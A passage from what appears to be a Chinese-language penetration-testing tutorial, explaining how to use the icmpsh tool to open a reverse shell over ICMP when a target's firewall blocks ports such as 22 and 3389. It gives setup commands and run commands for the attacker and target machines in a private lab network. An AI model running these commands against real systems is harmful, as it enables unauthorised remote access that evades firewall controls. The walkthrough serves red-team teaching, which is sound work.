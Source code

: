 这样kali就可以访问目标机器的3389端口了。

### icmpsh

```
git clone https://github.com/inquisb/icmpsh.git #下载工具
apt-get install python-impacket # 安装依赖，或者 pip2 install impacket
sysctl -w net.ipv4.icmp_echo_ignore_all=1  #关闭本地ICMP应答
```

`icmpsh`常用命令介绍：

```
-t host            发送ping请求的主机ip地址，即攻击机的IP [该命令必须存在]
-d milliseconds    请求时间间隔（毫秒）
-o milliseconds    响应超时时间（毫秒）
-s bytes           最大数据缓冲区大小（字节）
```

攻击机能通过 ICMP 协议访问到目标主机，但是目标上有防火墙，拒绝了敏感端口比如 22、3389 端口的访问，这个时候可以使用 `icmpsh`利用 ICMP 协议建立反向 shell

```
攻击机 IP：192.168.101.82
目标机 IP：192.168.101.83
```

在kali攻击机上运行：

```
python icmpsh_m.py 192.168.101.82 192.168.101.83
```

在目标机上运行

```
./icmpsh.exe -t 192.168.101.82
```
